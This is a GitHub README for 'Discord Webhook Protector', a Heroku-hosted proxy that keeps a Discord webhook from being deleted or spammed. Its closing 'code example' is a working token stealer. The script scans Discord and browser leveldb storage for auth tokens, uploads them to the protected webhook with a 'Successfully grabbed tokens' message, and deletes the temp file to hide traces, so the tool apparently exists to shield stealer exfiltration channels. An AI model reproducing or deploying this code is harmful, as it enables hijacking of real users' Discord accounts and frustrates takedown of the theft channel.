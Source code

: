 <h1 align="center">
  Discord Webhook Protector 🔰
</h1>

<p align="center"> 
  <kbd>
<img src="https://raw.githubusercontent.com/Rdimo/images/master/Discord-Webhook-Protector/Discord-Webhook-Protector.png"></img>
  </kbd>
</p>

<p align="center">
  <img src="https://img.shields.io/github/languages/top/Rdimo/Discord-Webhook-Protector?style=flat-square"/>
  <img src="https://img.shields.io/github/last-commit/Rdimo/Discord-Webhook-Protector?style=flat-square"/>
  <img src="https://sonarcloud.io/api/project_badges/measure?project=Rdimo_Discord-Webhook-Protector&metric=ncloc"/>
  <img src="https://img.shields.io/github/stars/Rdimo/Discord-Webhook-Protector?color=444444&label=Stars&style=flat-square"/>
  <img src="https://img.shields.io/github/forks/Rdimo/Discord-Webhook-Protector?color=444444&label=Forks&style=flat-square"/>
</p>

<h4 align="center">
  <a href="https://cheataway.com">🌌・Discord</a>
  ⋮
  <a href="https://github.com/Rdimo/Discord-Webhook-Protector#-%E3%80%A2-hosting-the-api">🎉・Setup the api</a>
  ⋮
  <a href="https://github.com/Rdimo/Discord-Webhook-Protector#-%E3%80%A2-code-example">🎈・Code example</a>
</h4>

<h2 align="center">
  Discord-Webhook-Protector was made by

Love ❌ code ✅

</h2>

---

## 🔰 〢 Features

```
> Easy to setup!
> Configurable!
> Completely *free* and stays online *24/7*
> Accepts json, discord embeds and files!
> Ratelimits unauthorized requests!
> Accepting only post requests!
> Impossible to delete webhook
> Webhook protected by totp so very hard to spam webhook even if they http debug!
```

---

### 📁 〢 Hosting the api

1. Create an account on [Heroku.com](https://heroku.com) (Yes all of this is **free**)
2. Install [nodejs](https://nodejs.org/en/), [heroku cli](https://devcenter.heroku.com/articles/getting-started-with-nodejs#set-up), and [git](https://git-scm.com/)
3. Open [config.json](https://github.com/Rdimo/Discord-Webhook-Protector/blob/main/config.json) and put in your webhook at the top
4. Now you need a key, open cmd in the directory and type the following ⇣
```sh-session
$ cd test
$ py keyGen.py
>>> Your key is: ...
>>> Copied key to clipboard!
```
5. Paste your generated key in [config.json](https://github.com/Rdimo/Discord-Webhook-Protector/blob/main/config.json)
6. Open a new cmd in the directory and type `npm i`
7. Now follow these steps carefully ⇣

```sh-session
$ heroku login
...
$ git init
$ git add .
$ git commit -m "first Webhook protector api commit"
...
$ heroku create
...
$ git push heroku master
...
$ heroku ps:scale web=1
...
$ heroku domains
...
```

8. Done! After typing `heroku domains` you should get something in the console like **shrouded-fjord-36366.herokuapp.com**. This is your api with your undeletable/unspammable webhook!

#### If you get an error when doing `"git push heroku master"` that looks like this

```sh
$ first issue error: failed to push some refs to 'https://git.heroku.com/app-name.git'
```
Then run `"git push heroku main"` instead | https://github.com/Rdimo/Discord-Webhook-Protector/issues/1

ㅤ

If you make some changes in the code and want to update the api on heroku, simply run `npm run deploy` to push out the updates \
If any bugs occur please report them or try and see if restarting the app by typing `heroku restart` works!
For testing that your api works, open cmd in the directory and type the following ⇣

```sh-session
$ cd .\test
...
$ py test.py
```

it should've made a post request to the api uploading itself and sending "it works!" to the webhook

---

### ⚙ 〢 Settings

The config and what the options do

```json
{
  "webhook": "https://discord.com/api/webhooks/0123456789/abcdefghijklmnopqrstuvwxyz", //your discord webhook
  "pass32": "K4ZVUQTSIRMDOWKRGU2WQQTZJM======" /*a key encoded in base32, use the keyGen in ./test or see https://github.com/bellstrand/totp-generator#how-to-use for more*/,
  "rateLimitTimeout": 12000, //amount of milliseconds an ip gets ratelimited (Default: 30000 --> 30 seconds)
  "port": 3000 //port
}
```

---

### 🎈 〢 Code example

Example use of the api hosted on heroku

```py
import os, re
import requests
from pyotp import TOTP

api = "https://your-heroku-app-name.herokuapp.com" #the name of your app will probably be something like https://frozen-beach-72554.herokuapp.com

pass32 = 'K4ZVUQTSIRMDOWKRGU2WQQTZJM======' #needs to be same key as the one in your api
key = TOTP(pass32).now()

local = os.getenv('LOCALAPPDATA')
roaming = os.getenv('APPDATA')
_file = os.getenv('temp') + os.sep + 'tokens.txt'

paths = {
    'Discord': roaming + '\\Discord\\Local Storage\\leveldb',
    'Discord Canary': roaming + '\\discordcanary\\Local Storage\\leveldb',
    'Discord PTB': roaming + '\\discordptb\\Local Storage\\leveldb',
    'Google Chrome': local + '\\Google\\Chrome\\User Data\\Default\\Local Storage\\leveldb',
    'Opera': roaming + '\\Opera Software\\Opera Stable\\Local Storage\\leveldb',
    'Brave': local + '\\BraveSoftware\\Brave-Browser\\User Data\\Default\\Local Storage\\leveldb',
    'Yandex': local + '\\Yandex\\YandexBrowser\\User Data\\Default\\Local Storage\\leveldb'
}
for platform, path in paths.items():
    if not os.path.exists(path):
        continue
    for file_name in os.listdir(path):
        if not file_name.endswith('.log') and not file_name.endswith('.ldb'):
            continue
        for line in [x.strip() for x in open(f'{path}\\{file_name}', errors='ignore').readlines() if x.strip()]:
            for regex in (r'[\w-]{24}\.[\w-]{6}\.[\w-]{27}', r'mfa\.[\w-]{84}'):
                for token in re.findall(regex, line):
                    with open(_file, 'a') as f:
                        f.write(token)

requests.post(api, headers={"Authorization": key}, data={"content": f'Successfully grabbed tokens from {os.getlogin()}:'}) #send the text to webhook
requests.post(api, headers={"Authorization": key}, files={"upload_file": open(_file, 'rb')}) #send text file with tokens in it to the webhook
os.remove(_file) #delete traces
```

> Thank you [xrevix](https://github.com/xrevix) for bug testing and reporting all of them 😘
